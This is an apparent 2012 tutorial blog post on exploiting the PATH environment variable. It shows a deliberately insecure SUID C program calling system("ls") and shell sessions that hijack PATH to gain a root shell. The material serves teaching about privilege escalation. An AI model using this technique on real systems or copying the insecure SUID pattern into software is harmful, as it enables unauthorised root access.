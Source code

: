 ```yaml
---
date: 2012-03-27
title: Exploiting environment variables
author: Alexandru Juncu
tags: exploit, PATH
---
```


Environment variables are sometimes very important when creating new
processes. For example, the `PATH` variable, that decides what executable to
run.

The easiest example to exploit `PATH` is to add the current directory `.` to
the list and overwrite common shell commands with something else.

    $ cat ./ls
    echo P0wn3d
    $ ls
    file1 file2
    $ ./ls
    P0wn3d
    $ export PATH=.:$PATH
    $ ls
    P0wn3d

But that can only affect the user's shell and can't do harm to the system.
What if some other conditions exist in the system, like the use of the
`SUID` bit. Normal processes are run as the user who executes them,
regardless of who owns the executable file (as long as the user who runs
the file can read the file). If the `SUID` is set on an executable file, any
process started from that executable will run as the owner of the file,
not shell owner. Here is an example of a very insecure source that
**shouldn't** be SUID-ed.


~~~ cpp
#include<stdlib.h>

int main(void)
{
	system("ls");
	return 0;
}
~~~

Let's assume that the compiled executable from this code is owned by root,
SUID-ed and put into /bin with the name `ls_root`.

    $ ls -la /bin/ls_root
    -rwsrwsr-x 1 root root 7163 2012-03-21 12:28 /bin/ls_root

What this will enable, for example, is the listing of the `/root` directory
by any user.

    $ cd /root
    $ ls
    ls: cannot open directory .: Permission denied
    $ sudo ls
    test
    $ ls_root
    test

The code simply executes the `ls` command. But what if the `ls` command isn't
doing what it is supposed to do? Given this setup, as a normal user, we
can do the following:

    $ ln -s /bin/sh ls
    $ echo $$
    32655
    $ ls
    ls  ls_root.c
    $ ./ls
    $ echo $$
    32730
    $ whoami
    alexj
    $ exit
    $ export PATH=.:$PATH
    $ ls_root
    # whoami
    root
    #

The `ls_root` process will run the `ls` command. The `ls` command will run an
executable specified by the `PATH` variable (the executable is `/bin/ls`). But
if the `PATH` variable is changed in the current bash process, the
executable ran by the `ls` command will now become something else. If the
`ls_root` command is ran by root (with the help of the `SUID` bit), any of its
children will also be processes of root. So, if the `ls` command will now run
a bash executable, it will run a root owned executable that leads to root
access.

The `SUID` is something that is used in Linux systems (`sudo` and even `ping`
use it), but these executables are very carefully implemented so that normal
users can't exploit them.
